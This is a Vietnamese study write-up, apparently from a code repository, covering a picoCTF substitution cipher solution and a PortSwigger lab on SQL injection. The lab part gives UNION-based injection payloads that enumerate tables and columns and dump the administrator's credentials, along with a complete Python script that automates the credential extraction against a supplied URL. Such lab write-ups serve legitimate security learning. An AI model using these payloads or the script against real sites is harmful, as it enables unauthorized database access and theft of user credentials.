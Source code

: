 # Cryptography  
## picoCtf
substitution0 https://play.picoctf.org/practice/challenge/307?page=1&search=substitu
Cách giải: 
- Đây là mật mã thay thế.
- 26 kí tự đầu tiên sẽ là khóa.


- from string import *
- with open("message.txt") as file:
-    content = file.read()
- upper_key = "QWITJSYHXCNDFERMUKGOPVALBZ"
- lower_key = upper_key.lower()
- for character in content:
-     if character.isupper():
-         print(ascii_uppercase[upper_key.index(character)],end = "")
-     elif character.islower():
-         print(ascii_lowercase[lower_key.index(character)],end = "")
-     else: 
-         print(character,end = "")

# Web
## portwSwigger
### SQL Injection - Lab #9 SQL injection attack, listing the database contents on non Oracle databases
- https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
1. Xác định số cột của database: ' order by 1--
- https://0a2200c8030727a2c633e1d0005c006d.web-security-academy.net/filter?category=Accessories%27%20order%20by%201--
- Tăng số lần lượt từ 1 cho đến khi web trả về lỗi. Từ đó xác định được số cột trong database.(2 cột)
2. Xác định kiểu dữ liệu của cột.
- ' UNION select 'a',NULL-- 
- ' UNION select 'a','a'--
- -> cả hai cột dữ liệu là kiểu text.
3. Xác định phiên bản của database.
- ' UNION select version(),NULL--       =>PostgreSQL
4. Lấy được danh sách tên cột của database.
- ' UNION select table_name, NULL FROM  information_schema.tables--
- (lên mạng gõ information_schema.tables sau đó tìm ra được table_name)  
5. In ra tên của bảng.
- ' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = 'users_wahylc'--
- (users_wahylc tùy thuộc vào từng bài).
- password_qlrxps     username_msmtmu
6. In ra username và password.
- ' UNION select username_msmtmu, password_qlrxps from users_wahylc--
- administrator   c05fnpuhr9l97equdrn2

-import requests 
- import urllib3
- from bs4 import BeautifulSoup
- import re  
- import sys 
- import warnings
- warnings.filterwarnings("ignore", category=DeprecationWarning) 
- urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
- proxies = {'http': 'http://127.0.0.1:8080','https' : 'https://127.0.0.1:8080'}
- def perform_request(url,sql_payload):
-     path = '/filter?category=Accessories'
-     r = requests.get(url + path + sql_payload,verify = False,proxies = proxies)
-     return r.text 
- def sqli_users_table(url):
-     sql_payload = "' UNION select table_name, NULL FROM  information_schema.tables--"
-    res = perform_request(url,sql_payload)
-    soup  = BeautifulSoup(res,'html.parser')
-    users_table = soup.find(text = re.compile(".*users.*"))
-    if users_table: 
-        return users_table
-    else: 
-        return False 
-def sqli_users_columns(url,users_table): 
-    sql_payload = "' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = '%s'--" %users_table
-    res = perform_request(url,sql_payload)
-    soup = BeautifulSoup(res,'html.parser')
-    username_column = soup.find(text = re.compile('.*username.*'))
-    password_column = soup.find(text = re.compile('.*password.*'))
-    return username_column,password_column
-def sqli_administrator_cred(url,users_table,username_column,password_column):
-    sql_payload = "' UNION select %s, %s from %s--" % (username_column,password_column,users_table)
-    res = perform_request(url,sql_payload)
-    soup = BeautifulSoup(res,'html.parser')
-    admin_password = soup.body.find(text = "administrator").parent.findNext('td').contents[0] 
-    return admin_password
-if __name__ == "__main__":
-    try: 
-        url = sys.argv[1].strip()
-    except IndexError: 
-        print("[-] Usage: %s <url>" %sys.argv[0])
-        print("[-] Example: %s www.example.com" %sys.argv[0])
-        sys.exit(-1)
-    print("Looking for a users table....")
-    users_table = sqli_users_table(url)
-    if users_table:
-        print("Found the users table name: %s" %users_table)
-        username_column,password_column = sqli_users_columns(url,users_table)
-        if username_column and  password_column:
-            print("Found the username column name: %s", username_column)
-            print("Found the password column name: %s", password_column)
-            admin_password = sqli_administrator_cred(url,users_table,username_column,password_column)
-            if admin_password: 
-                print("[+] The administrator password is: %s" %admin_password) 
-            else: 
-                print("[-] Did not find the administrator password.")
-        else: 
-            print("Did not find the username and/ or the password columns.")
-    else: 
-        print("Did not find a users table.")

